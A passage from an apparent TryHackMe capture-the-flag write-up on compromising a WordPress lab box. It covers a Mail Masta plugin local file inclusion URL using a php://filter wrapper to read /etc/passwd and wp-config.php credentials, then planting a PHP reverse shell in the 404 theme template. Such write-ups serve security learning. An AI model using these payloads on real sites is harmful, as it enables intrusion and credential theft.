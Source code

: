 ```bash
  WordPress Plugin Mail Masta 1.0 - SQL Injection                                                                                                                     | php/webapps/41438.txt
  -------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
This looks really intersting, lets try the Local File Inclusion from the <a href="https://www.exploit-db.com/exploits/40290">exploit-db</a> entry:

![LFI Passwd file](/assets/img/tryhackme/Allinone/thm_allinone_1.jpg)

We can see the user `elyana` again. Let's try to exfiltrate `wordpress` configuration files:
```bash
http://10.10.101.239/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```
We need a php filter wrapper to prevent php to execute the site. Found more about it on this <a href="https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion">OWASP site</a>:
```bash
http://10.10.101.239/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```
With a `base64` decode we can read the configuration file:
```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', '[removed]' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

With the login we can go to the `Appearance` > `Theme Editor` tab. Here I was able to edit the `404 Tempalte` and replaced the code with a php reverse shell. Now by simply visiting any unknow site, the reverse shell gets activated. Example:
```html
http://10.10.101.239/wordpress/index.php/ThisPageWillNotBeThere
```
